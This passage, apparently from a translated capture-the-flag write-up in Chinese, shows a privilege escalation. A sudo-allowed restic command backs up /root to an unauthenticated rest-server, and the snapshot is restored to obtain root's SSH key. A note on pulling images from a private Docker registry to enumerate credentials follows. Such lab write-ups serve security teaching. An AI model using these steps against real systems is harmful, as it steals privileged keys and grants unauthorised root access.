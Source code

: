 ![](img/c9e2c78a064287b409ac99f055f16a33.png)

我们可以通过使用下面的 repo 来建立一个 rest-server。

[](https://github.com/restic/rest-server) [## restic/rest-服务器

### Rest Server 是一个高性能的 HTTP 服务器，它实现了 restic 的 Rest 后端 API。它提供了安全和…

github.com](https://github.com/restic/rest-server) 

```
**restic init --repo rest123**
```

然后开始按`**rest-server**`

```
**rest-server --path rest123 --no-auth**
```

将/root 文件夹备份到我们的`**rest123**` **。**

```
**sudo /usr/bin/restic -r backup rest:http://127.0.0.1:8000/ /root**
```

并通过以下方式恢复了快照

```
**restic -r rest123 restore latest --target restore/**
```

我获得了 root SSH 密钥，并以 root 身份登录

![](img/056b58b47af87e1e14367f68c478c637.png)

# 额外的

## SSH 信用的另一种方式

不用下载所有的 blobs，我们可以直接提取 docker 图像并从那里进行枚举。

```
**The command to pull images from private registry is as follows:****docker pull HOST:PORT/IMAGE_NAME**
```
